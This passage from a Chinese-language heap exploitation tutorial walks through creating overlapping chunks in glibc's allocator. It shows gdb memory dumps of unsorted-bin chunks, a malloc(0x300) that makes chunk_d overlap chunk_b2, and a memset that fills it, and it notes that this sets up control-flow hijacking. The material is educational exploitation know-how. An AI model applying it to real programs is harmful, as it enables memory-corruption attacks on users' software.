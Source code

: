 ```
0x603110:       0x0000000000000000      0x0000000000000321 <-- unsortedbin
0x603120:       0x00000000006032b0      0x00007ffff7dd4b58     (0x603110)
0x603130:       0x0000000000000000      0x0000000000000000     
···0x00···      省略部分
0x603200:       0x0000000000000000      0x0000000000000000
0x603210:       0x0000000000000000      0x0000000000000000
0x603220:       0x0000000000000000      0x0000000000000090 <-- b2.size
0x603230:       0x4242424242424242      0x4242424242424242 <-- chunk_b2
0x603240:       0x4242424242424242      0x4242424242424242
···0x42···      省略部分
0x6032a0:       0x4242424242424242      0x4242424242424242
0x6032b0:       0x0000000000000000      0x0000000000000061 <-- unsortedbin
0x6032c0:       0x00007ffff7dd4b58      0x0000000000603110 <-- fk、bk
0x6032d0:       0x0000000000000000      0x0000000000000000
······
0x603310:       0x0000000000000060      0x0000000000000000
0x603320:       0x0000000000000210      0x0000000000000110
0x603330:       0x0000000000000000      0x0000000000000000 <-- chunk_c
```

然后，我们再申请一个合适大小的 chunk_d ，这样我们就有了重叠的chunk （chunk_d 以及 chunk_b2）

```
uint8_t* d;
d = malloc(0x300);
```

此时我们就可以控制chunk_b2 进行一些控制流劫持的操作了

将chunk_d染色

```c
memset(d,'D',0x300);
```

内存

```
0x603110:       0x0000000000000000      0x0000000000000321 <-- 
0x603120:       0x4444444444444444      0x4444444444444444     chunk_d
0x603130:       0x4444444444444444      0x4444444444444444     
···0x44···      省略部分
0x603200:       0x4444444444444444      0x4444444444444444
0x603210:       0x4444444444444444      0x4444444444444444
0x603220:       0x4444444444444444      0x4444444444444444 <-- b2.size
0x603230:       0x4444444444444444      0x4444444444444444 <-- chunk_b2
0x603240:       0x4444444444444444      0x4444444444444444
···0x44···      省略部分
0x6032a0:       0x4444444444444444      0x4444444444444444
0x6032b0:       0x4444444444444444      0x4444444444444444 
0x6032c0:       0x4444444444444444      0x4444444444444444 
0x6032d0:       0x4444444444444444      0x4444444444444444
···0x44···      省略部分
0x603310:       0x4444444444444444      0x4444444444444444
0x603320:       0x4444444444444444      0x4444444444444444
0x603330:       0x4444444444444444      0x4444444444444444 
0x603340:       0x4444444444444444      0x4444444444444444
······
0x603410:       0x4444444444444444      0x4444444444444444
0x603420:       0x0000000000000000      0x0000000000000000
0x603430:       0x0000000000000000      0x0000000000000111
0x603440:       0x0000000000000000      0x0000000000000000 <-- barrier
```
